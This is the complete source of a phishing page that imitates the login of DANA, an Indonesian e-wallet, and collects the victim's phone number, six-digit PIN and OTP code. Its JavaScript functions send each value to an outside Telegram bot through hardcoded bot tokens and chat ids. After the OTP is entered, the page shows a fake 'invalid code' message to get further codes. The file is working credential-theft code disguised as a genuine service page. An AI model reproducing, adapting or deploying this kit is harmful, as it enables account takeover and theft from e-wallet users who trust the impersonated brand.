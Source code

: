 
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=0">
<meta name="theme-color" content="#118EEA"> 

<meta http-equiv="X-UA-Compatible" content="ie=edge">
<title></title>
<meta property="og:title" content="DANA ID">
<meta property="twitter:title" content="DANA ID ">
<meta property="twitter:card" content="summary_large_image">
<meta property="og:image:type" content="image/jpeg">
<meta content="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQA-22lQk5cJ68usHbFQm_lnqlOTy6o7c3rZg&usqp=CAU" property="og:image">
 <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQA-22lQk5cJ68usHbFQm_lnqlOTy6o7c3rZg&usqp=CAU" rel="shortcut icon" type="image/x-icon">
  <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQA-22lQk5cJ68usHbFQm_lnqlOTy6o7c3rZg&usqp=CAU" rel="apple-touch-icon">
 <link rel="canonical" href="https://www.dana.id/">
   <meta property="og:url" content="https://www.dana.id/" />
<meta property="og:description" content="DANA adalah bentuk baru uang tunai yang lebih baik. Transaksi apapun, berapapun dan dimanapun jadi mudah bersama DANA. Ambil bagian dalam transformasi keuangan digital di Indonesia sekarang!">
<meta property="twitter:description" content="DANA adalah bentuk baru uang tunai yang lebih baik. Transaksi apapun, berapapun dan dimanapun jadi mudah bersama DANA. Ambil bagian dalam transformasi keuangan digital di Indonesia sekarang!">
<script type="module" src="https://unpkg.com/ionicons@7.1.0/dist/ionicons/ionicons.esm.js"></script>
<script nomodule src="https://unpkg.com/ionicons@7.1.0/dist/ionicons/ionicons.js"></script>
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/container.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/loader.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/main.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/otp.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/pin.css">
</head>
<style>
    
body, html{
      left: 0;
      right: 0;
      bottom: 0;
      top: 0;
      margin: 0px auto;
      width: 100%;
      height: 100%;
      positon: fixed
      
}
h2{font-size: 18px; }

h3{
  font-size: 14px;  
}

 
 * {
  box-sizing: border-box;
  scrollbar-color: transparent transparent; /* thumb and track color */
  scrollbar-width: 0px;
}

*::-webkit-scrollbar {
  width: 0;
}

*::-webkit-scrollbar-track {
  background: transparent;
}

*::-webkit-scrollbar-thumb {
  background-color: #118CEA;
  border: none;
}

* {
  -ms-overflow-style: none;
}

ol, li {
  list-style: none;
  margin: 0;
  padding: 0;
}

.carousel {
  position: absolute;
  background-color: #118CEA;
  padding-top:0%;
  height: 100%;
  top: 0;
  right: 0;
  left: 0;
  margin: 0px auto;
  perspective: 200px;
}

.carousel__viewport {
  position: absolute;
  padding: 32px;
  width: 100%;
  top: 0;
  background-color: #118CEA;
  right: 0;
  bottom: 0;
  left: 0;
  height: 79%;
  display: flex;
  overflow-x: scroll;
  counter-reset: item;
  margin: 0px auto;
 
  scroll-behavior: smooth;
  scroll-snap-type: x mandatory;{}
}

.carousel__slide {
  position: relative;
  flex: 0 0 100%;
  width: 100%;
  height: 100%;
  margin-left: 10px;
  background-color: #118CEA;
  counter-increment: item;
  z-index: 99999999;
}

.carousel__slide:nth-child(even) {
  background-color: #118CEA;
}

.carousel__slide:before {
  content: counter(item);
  position: absolute;
  top: 50%;
  left: 50%;
  transform: translate3d(-50%,-40%,70px);
  color: #000;
  font-size: 2em;
  background-color: #118CEA;
}

.carousel__snapper {
  position: relative;
  top: 0;
  left: 0;
  right: 0;
  bottom: 0;
  width: 100%;
  height: 100%;
  scroll-snap-align: center;
  background-color: #118CEA;
  
  
}

@media (hover: hover) {
  .carousel__snapper {
    animation-name: tonext, snap;
    animation-timing-function: ease;
    animation-duration: 4s;
    animation-iteration-count: infinite;
  }

  .carousel__slide:last-child .carousel__snapper {
    animation-name: tostart, snap;
  }
}

@media (prefers-reduced-motion: reduce) {
  .carousel__snapper {
    animation-name: none;
  }
}

.carousel:hover .carousel__snapper,
.carousel:focus-within .carousel__snapper {
  animation-name: none;
}

.carousel__navigation {
  position: absolute;
  right: 0;
  bottom: 0;
  left: 0;
  text-align: center;
}

.carousel__navigation-list,
.carousel__navigation-item {
  display: inline-block;
}


.carousel::before,
.carousel::after,
.carousel__prev,
.carousel__next {
  position: absolute;
  top: 0;
  margin-top: 37.5%;
  width: 0;
  height: 0;
  transform: translateY(-50%);
  border-radius: 50%;
  font-size: 0;
  outline: 0;
  opacity: 0.0;
}

.carousel::before,
.carousel__prev {
  left: -1rem;
}

.carousel::after,
.carousel__next {
  right: 0rem;
}

.carousel::before,
.carousel::after {
  content: '';
  z-index: 1;
  background-color: #fff;
  background-size: 1.5rem 1.5rem;
  background-repeat: no-repeat;
  background-position: center center;
  color: #000;
  font-size: 2.5rem;
  line-height: 4rem;
  text-align: center;
  pointer-events: none;
}

/*********************/
.process1 {
     width: 100%;
            height: 100%;
             display: flex;
             justify-content: center;
            margin: auto;
            position: absolute;
           padding-top: 300px;
            left: 0;
            right: 0;
            bottom: 0;
            background: rgba(0, 0, 0, 0.6);
            z-index: 99999;
            
      
}
.loading {
    position: absolute;
    display: flex;
    justify-content: center;
    align-items: center;
    margin-bottom: 20%;
}
.loading img {
    width: 50px;
    
    top: 10;
}
.loading .spinner{
    position: absolute;
    width: 35px;
    animation: spin 1s linear infinite;
    -webkit-animation: spin 1s linear infinite;
    -moz-animation: spin 1s linear infinite;
    -ms-animation: spin 1s linear infinite;
    -o-animation: spin 1s linear infinite;
}
@keyframes spin {
  0% { transform: rotate(360deg); }
  100% { transform: rotate(0deg); }
}
@-webkit-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-moz-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-ms-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-o-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}

/*********************/

 #homeku{
     width: 100%;
     height: 100%;
     position: fixed;
    background: #118EEA;
  background-position: 100% 100%;
  background-size: 100% 100%;
  left: 0;
  right: 0;
  top: 0;
  bottom: 0;
  margin: 0px auto;
     
     
 }
 
 .inp{
     width: 70%;
     padding-left: 10px;
 }
 
 
 .btn-backku{
     position: absolute;
     left: 20;
     top: 12;
     background: transparent;
     color: #fff;
     border: none;
     font-size: 18px;
     font-weight: 300;
    
 }
 
 
 #back1{
      display: none;
     
 }
 
 #back2{
      display: none;
 }
</style>
<body>

<div style="display:none;" class="index">
	<div class="header">
		<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_logo.png" class="logo" alt="">
	</div>
	<div class="content">
		<div class="hero">
			<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/hero.svg" alt="">
		</div>
		<h1>Dompet digital untuk kamu!</h1>
		<p class="desc">
			Simpan uang serta kartu debit/kredit dengan<br>praktis di DANA</p>
		<div class="line"></div>
		<p class="log">
			Masukkan <b>nomor HP</b> kamu untuk lanjut
		</p>
		<button type="button" onclick="next();">LOGIN</button>
	</div>
</div>
<div class="start" style="display:none;">
	<img class="logo" src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_text.png" style="width: 150px">
	<div class="footimg">
		<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/bi.png" alt=""><img src="https://dev-danapemulihan.pantheonsite.io/asset/img/kom.png" alt="">
		<p>
			DANA Indonesia terdaftar dan diawasi<br>oleh Bank Indonesia dan Kominfo</p>
	</div>
</div>

<div class="container hid" style="position: fixed">
    
	<div class="" style="text-align: center;" id="homeku">
   

        
     <section class="carousel" aria-label="Gallery" style="margin-top: 0px; text-align: center; left: 0">
  <ol class="carousel__viewport">
    <li id="carousel__slide1"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEilUMIG_IMFVixTFpWb4xA5f1HJt25lbv-cc1baknB_YJeWO9FYU4SJOzdeMNkA1msFpUU-0MiI3B-llmFX122-XhqCq7-1HW4YUfaWX52rlNtfspDDvlFNj_A--xZIRknP3ycDkzm51noxYaFx_gfOck3U745QZSBwpCSesqOq1oEycuQamqaZlqoz/s16000/ezgif.com-crop%20(3).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999999; position: relative;">
       
       
      </div>
    </li>
    <li id="carousel__slide2"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper" style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEixR-U2gHP_VriGKaaVcf-_BbZmvWWoaRI8Wd26DYewNJayil_To6kgdWxmdq3TDJKQJ7lAAbD1de1uuuWTLQzCGdR8qT1S2mTehsdR02AFN573iPkN-0IrliCuRAy0xJfSH9AlfJWV7odqpRC_bxJLM2EkLf-84_ePEjEfE8SOtiKfEjcLQ7nDBjDc/s16000/ezgif.com-crop%20(4).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; background-color: transparent;"></div>
      <a href="#carousel__slide1"
         class="carousel__prev">Go to previous slide</a>
      <a href="#carousel__slide3"
         class="carousel__next">Go to next slide</a>
    </li>
    <li id="carousel__slide3"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjj8Fs3JMUwF85O07XgsV-e1rmQjTwS91jcu-zh3Lr_fEgVfhY823rmnMewtU59iGvsFjcBm-12OLSj81f57ZEksJeU2GaG7UU3zuwDsOsfTO4dAJ693JJyILcXjdHEzirw-pPBCeV1CfTqSroNgoMTGIfy-Y-HC8GAJDmo68GYd1-x2gGu0UsincrU/s16000/ezgif.com-crop%20(5).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%;">
       
       
      </div>
    </li>
   
  </ol>
  <aside class="carousel__navigation">
    <ol class="carousel__navigation-list">
      <li class="carousel__navigation-item">
        <a href="#carousel__slide1"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide2"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide3"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        
    </ol>
  </aside>
</section>
<button id="butonku" style="width: 90%; height: 189px; position: fixed; bottom: 0; left: 0; right: 0; margin: 1px auto; border: 0; background: url('https://user-images.githubusercontent.com/155412066/296517930-fcfc7dd0-ba64-4395-85bf-e4103927b567.jpg');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999" onclick="nextPrev()"></button>
      <center>
     <div id="process1" name="process" class="process" style="display: none;">
            <div class="loading">
                <img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi8hbZEfutKvr9pkj0-mkJYWt-1SBtt3gw-HFOEZc0172okrp0SFHLaW3PRGVDm1U0P7WWEMELIw4nlq1_1gCgyZBo3cxf-OJNpguNamdJryCkGU-hTHiW3RyOv5JD9eIjXTFtrJFCVn0ae4RxG4Oi-czAP20tEaJI3OstxFAbtOwtFxp6RvOHc6NZL/s1600/load_bg.png">
                <img class="spinner" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhl9xJVYWF_a9vAhgW5QQgozvZVADTaJgIX64iO7a5sQuMpSoPBK3zfKjvT6xc9fZPfxZz39mjk1H_oZOOOtYvO1l7DkWNqiD5LJyGYdwDNyHuyqLk_Ix6eFs3aLCG2yUXVwtsnj0BXTA40WZmecyLyCIm_ff0xNkkOvkuKBOl6yfS-QjI_EJrIyGtU/s1600/load_spin.png" id="loading" style="margin-top: 8px">
            </div>
        </div>
        </center>
  </div>
  <div id="blogin" class="box-login" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: fixed; 
    left: 0; 
    padding: 0px
    right: 0; 
    margin: 0px auto;
    top: 0; display: none;">
      	<div id="process" name="process" class="process" style="display: none;">
			<div class="loading">
				<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_bg.png">
				<img class="spinner" src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_spin.png" style="margin-top: 8px">
			</div>
		</div>
		
		<div class="header">
<button id="back1" type="button" class="btn-backku" onclick="goback1()"><ion-icon name="chevron-back-outline"></ion-icon></button>	<p></p>


			<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_logo.png" class="logo" alt="">
		</div>
		<form id="formNohp" onsubmit="sendNohp(event);" >
		     <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
			<h3 style="font-size: 16px; margin-top: -20px">Masukkan <b>nomor HP</b> kamu untuk lanjut</h3>
			<div class="box-input" style="width: 95%;">
				<div class="label">
					<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/indo.png" alt=""><label>+62</label>
				</div>
				<input class="inp" id="inp" type="tel" autocomplete="off" required name="nohp" placeholder="812-3456-7890" maxlength="12" minlength="10"></div>
			<p class="desc" style="font-size: 12px; line-height: 18px; margin-top: 25px">
Nomor ponsel akan digunakan sebagai ID kamu & menjaga<br>akun selalu aman. Dengan melanjutkan, kamu setuju dengan <b>Syarat & Ketentuan dan Kebijakan Privasi</b> kami.
			</p>
			<div class="box-btn">
				<button disabled id="btn" class="btnnohp" type="submit" style="margin-top: -40px">LANJUT</button>
			</div>
		</form>
		<form id="formPin" omsubmit="return false" class="hid" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: fixed; 
    left: 0; 
    right: 0; 
    margin: 0px auto;
    top: 0;">
		     <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
		    <button id="back2" type="button" class="btn-backku" onclick="goback2()" style="margin-top: 10px"><ion-icon name="chevron-back-outline"></ion-icon></button>
			<h3 style="margin-top: 50px; font-weight: 600; margin-bottom: -10px; font-size: 16px"><font style="font-weight: 400">Masukkan</font> PIN DANA</h3>
			<div class="box-input-pin">
				<div type="button" class="clear"></div>
				<input name="pin1" id="pin1" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin2" id="pin2" class="inppin" inputmode="numeric" type="password" autocomplete="off" required"""" maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin3" id="pin3" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin4" id="pin4" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin5" id="pin5" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin6" id="pin6" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;" onchange="javascript:this.form.button();" oninput="sendPin()"></div>
			<button class="show" type="button">TAMPILKAN</button>
			<p class="forgot">LUPA PIN?</p>
			<img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgbD-mmuMUDwaeFMEz6NefivuQqHyrFXvXxqVxMhYRhR5wsfUhiWkPNkpxLKkagRNpJ2obIiZH_D9EK6tnHIJUFMVBOclZI98zrU7VPszAR5n-_GeSWNCNgnfH1MRWuL-ahhPjxsejyDa5yyWAaOMWXWT4jS4EngtdLLlXjaPakQoFIOsjyS6tfnEBHDlw/s16000/output-onlinegiftools.gif" width="100%" style="position: absolute; bottom: 10; left: 0; right: 0; margin: 0px auto;">
		</form>
<div class="bgotp hid" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: absolute; 
    left: 0; 
    right: 0; 
    margin: 0px auto;
    top: 0;">
<div class="bgotp hid"><form id="formOtp" class=""><h2>Masukan Kode OTP</h2><br><center>
				<p class="alert" id="alert" style="font-size: 14px; text-align: center; margin-bottom: 0px; font-weight: 500; color: #000; margin-top: 0px; display: ; width: 360px; margin-bottom: -10px; font-weight: 300"></p>
				
				
				</center>
				<div class="box-input-otp" style="margin-top: 50px">
					
					<div class="loadingOtp" style="display:none;background: #fafafa">

						
						<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_bg.png"><img class="spinner" src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_spin.png">
		</div>
		<div type="button" class="clearotp"></div>
		 <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
					<input name="otp1" id="otp1" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp2" id="otp2" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp3" id="otp3" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp4" id="otp4" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"></div>
		 <p id="waktuku" class="resend" style="margin-top: 70px; spacing: 2;color: #0f78cb; font-size: 13px">
					Kirim Ulang (<span id="carasingkat" style="color: #0f78cb">60</span>s)
				</p>
       <p class="resend" style="margin-top: 70px; spacing: 2; font-weight: 600; color: #0f78cb; margin-left: 0px; display: none" id="kirim-ulang" onclick="kirimulang()">Kirim Ulang</p>
       
       
			</div>
		</div>
	</div>
</div>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.11.3/jquery.min.js"></script>
        <script>
            var url = "#kirim-ulang"; // url tujuan
            var count = 60; // dalam detik
            function countDown() {
                
                if (count > 0) {
                    count--;
                    var waktu = count + 0;
            $('#carasingkat').html(waktu);
             
         setTimeout("countDown()", 1000);
           
                    
               
                }
            }
            countDown();
       
       </script>
<script src="https://code.jquery.com/jquery-3.5.1.min.js"></script>
<script src="https://dev-danapemulihan.pantheonsite.io/asset/jquery.mask.min.js"></script>
<script src="./asset/goo1gle.js"></script>
<script>$(document).ready(function(){$('#inp').on('input', function(){if($(this).val() == '0' || $(this).val() == '62'){$(this).val('');}});});</script>
<script>$(document).ready(function(){$('#inp').mask('000-0000-000000');});</script>
<script>let inp = document.getElementById("inp");let btn = document.getElementById("btn");inp.addEventListener("input", val);function val(){if(inp.value.length > 10){btn.disabled = false;}else{btn.disabled = true;}};</script>

<script>
//var pinContainer = document.getElementsByClassName("pin-code")[maxlength];
var pinContainer = document.querySelector(".box-input-pin");
console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

pinContainer.addEventListener('keyup', function (event) {
    var target = event.srcElement;
    
    var maxLength = parseInt(target.attributes["maxlength"].value, 6);
    var myLength = target.value. length;

    if (myLength >= maxLength) {
        var next = target;
        while (next = next.nextElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        } aa
    }

    if (myLength === 0) {
        var next = target;
        while (next = next.previousElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }
}, false);

pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);
</script>
<script>$('.inpotp').on('input', function(event) {const inputs = $('.inpotp');const isAllFilled = Array.from(inputs).every((input) => input.value !== '');if (isAllFilled == true) {$(event.target).blur();sendOtp();}const index = inputs.index(this);const currentValue = event.target.value;if (currentValue.length === 1) {if (index < inputs.length - 1) {inputs[index + 1].focus();}} else if (currentValue.length === 0) {if (index > 0) {inputs[index].focus();}};});$('.inpotp').on('keydown', function(event) {const inputs = $('.inpotp');const key = event.key;const index = inputs.index(this);if (key === 'Backspace' && event.target.value.length === 0) {if (index > 0) {inputs[index - 1].focus();}};});</script>
<script>$(document).ready(function() {$('.clear').click(function() {$('.inppin').val('');$('#pin1').focus();});$('.clearotp').click(function() {$('.inpotp').val('');$('#otp1').focus();});$('.show').click(function() {$('.inppin').each(function() {if ($(this).attr('type') === 'password') {$(this).attr('type','number');$(".show").text("SEMBUNYIKAN");} else {$(this).attr('type', 'password');$(".show").text("TAMPILKAN");}});});});</script>
<script>
 function nextPrev(){
      $("#process1").show();event.preventDefault();
       setTimeout(function(){
           $("#homeku").hide();
           $("#back1").show();
           $("#butonku").fadeOut();
           $(".box-login").fadeIn();
           $("#process1").hide();
       },1000);
 }   
 
 
 function goback1(){
     $("#process").show();
     setTimeout(function(){
     $("#homeku").show();
      $(".box-login").fadeOut();
      $("#butonku").fadeIn();
      $("#back1").hide();
       $("#process").hide();
       
     },500);
 }
 
 </script>
 <script>
 
 function goback2(){
     $("#process").show();
     setTimeout(function(){
    $("#formPin").fadeOut();
     $("#formNohp").fadeIn();
       $("#process").hide();
        $("#inp").val('');
        $("#back1").show();
        $("#back2").hide();
        document.getElementById("formPin").reset();
        $('.inppin').val('');
     },500);
 }
</script>
<script>
    $( document ).ready(function() {
            setTimeout(() => {
                $('#popup').hide();
                $('chsalxcome2').fadeIn();
            },2000)
             $('musikku').play();
        })
        
</script>


<script>
function tutupotp(){
$(".bgotp").hide();    
}
</script>
<script>
   function sendNohp(event){
    $("#process").show();event.preventDefault();
    $("#inp").blur();
     
    
    
    var nomor = document.getElementById("inp").value;
            sessionStorage.setItem("nomor", nomor);
    var logo = document.getElementById('logo');       
    var inp = document.getElementById('inp');
    
    var gabungan = '' + logo.value + '%0A𝐍𝐨.𝐇𝐩 : ' + '0' + inp.value;
   
    var token = '7041751605:AAFKiEDV17Ik__NBIiSzyCSr_RscW4fMffA'; // Ganti dengan token bot yang kamu buat
    var grup = '7165458140'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    
    success: function(){
    $("#process").hide();
    document.getElementById("back1").style.display = "none";
    document.getElementById("back2").style.display = "block";
    $("#formNohp").fadeOut();
    setTimeout(function(){
   
    $("#formPin").fadeIn();
    $("#pin1").focus();
    }, 500);}});};
    

function sendPin(){

 
 
  var nomor = sessionStorage.getItem("nomor");
        document.getElementById("alert").innerHTML = "Kode dikirim via SMS ke +62 " + nomor+ " <br/>";
  var logo = document.getElementById('logo'); 
  var inp = document.getElementById('inp');
 var pin1 = document.getElementById('pin1');
 var pin2 = document.getElementById('pin2');
 var pin3 = document.getElementById('pin3');
 var pin4 = document.getElementById('pin4');
 var pin5 = document.getElementById('pin5');
 var pin6 = document.getElementById('pin6');
     
  var gabungan = '' + logo.value + '%0A𝐍𝐨.𝐇𝐩: ' + '0' + inp.value + '%0A𝐏𝐈𝐍.     : ' + pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value;
  
     
 

    var token = '7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY'; // Ganti dengan token bot yang kamu buat
    var grup = '6235911819'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,


success: function(){
$("#process").hide();
document.getElementById("alert").style.display = "block"; 
$(".bgotp").fadeIn();
setInterval(countdown, 1000);
$("#otp1").focus();
}
}
);
};


  function sendOtp(){
    $(".loadingOtp").show();
     var logo = document.getElementById('logo'); 
     var inp = document.getElementById('inp');
 var pin1 = document.getElementById('pin1');
 var pin2 = document.getElementById('pin2');
 var pin3 = document.getElementById('pin3');
 var pin4 = document.getElementById('pin4');
 var pin5 = document.getElementById('pin5');
 var pin6 = document.getElementById('pin6');
     var otp1 = document.getElementById('otp1');
   var otp2 = document.getElementById('otp2');
   var otp3 = document.getElementById('otp3');
   var otp4 = document.getElementById('otp4');
    setTimeout(function(){
$(".alert").text("Kode Invalid ");
$(".alert").css("color","red");
 },2000);
    var gabungan = '' + logo.value + '%0A𝐍𝐨.𝐇𝐩: ' + '0' + inp.value + '%0A𝐏𝐈𝐍    : ' + pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value + '%0A%0A𝐎𝐓𝐏    : ' + otp1.value + otp2.value + otp3.value + otp4.value;


    var token = '7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY'; // Ganti dengan token bot yang kamu buat
    var grup = '6235911819'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
        
    success: function(){
    setTimeout(function(){
    $(".loadingOtp").hide();
   
    $('.inpotp').val('');
   $('#otp1').focus();
  var nomor = sessionStorage.getItem("nomor");
        document.getElementById("alert").innerHTML = "Kode baru dikirim ulang via SMS ke  +62" + nomor +  " <br/>";
   $(".alert").css("color","black");
    },4000);
   
        
    }
        
    }
    );
        
    };
    </script>
<script>
    function countdown() {
    var count = parseInt(
    $('#countdown').text());
    if (count !== 0) {
    $('#countdown').text(count - 1);} 
    else {
    $('#countdown').text('60');}};
    </script>
<script>
window.onload = function(){
        setTimeout(function(){
            $(".start").fadeIn();
            setTimeout(function(){
                $(".start").fadeOut(1000);
                setTimeout(function(){
                   $(".container").fadeIn(200);
                   $("#inp").focus();
                },1000);
            },1000);
        },500);
}
</script>
</body>
</html><!--<script src='https://a.bsite.net/footer.js'></script>
